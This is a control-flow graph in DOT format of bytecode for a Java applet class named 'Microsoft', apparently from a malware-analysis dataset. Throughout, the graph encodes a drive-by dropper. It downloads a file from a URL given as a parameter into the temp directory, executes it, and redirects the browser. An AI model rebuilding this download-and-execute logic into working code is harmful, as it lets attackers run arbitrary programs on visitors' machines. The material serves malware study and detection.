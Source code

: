 digraph "" {
    "r0 := @this: Microsoft"
    "load.r r0"
    "r0 := @this: Microsoft"->"load.r r0";
    "push \"FileName\""
    "load.r r0"->"push \"FileName\"";
    "virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>"
    "push \"FileName\""->"virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"java.io.tmpdir\""
    "store.r r1"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>";
    "store.r r25"
    "virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>"->"store.r r25";
    "push 1024"
    "store.r r25"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r3"
    "newarray"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r8"
    "new java.io.FileOutputStream"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "new java.lang.StringBuilder"
    "load.r $r8"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"FileURL\""
    "load.r r0"->"push \"FileURL\"";
    "push \"FileURL\""->"virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Microsoft: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r6"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r3"
    "load.r r6"->"load.r r3";
    "push 0"
    "load.r r3"->"push 0";
    "push 0"->"load.r r3";
    "arraylength"
    "load.r r3"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r6"
    "push -1"->"ifcmpeq.i load.r r6";
    "ifcmpeq.i load.r r6"->"load.r $r8";
    "load.r $r8"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r6"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r6";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r6"->"load.r r6";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r6"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r8";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r8"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "load.r r25"
    "pop"->"load.r r25";
    "push \"\""
    "load.r r25"->"push \"\"";
    "ifcmpeq.r goto return"
    "push \"\""->"ifcmpeq.r goto return";
    "ifcmpeq.r goto return"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r25";
    "checkcast"
    "load.r r25"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "virtualinvoke <Microsoft: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Microsoft: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Microsoft: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}
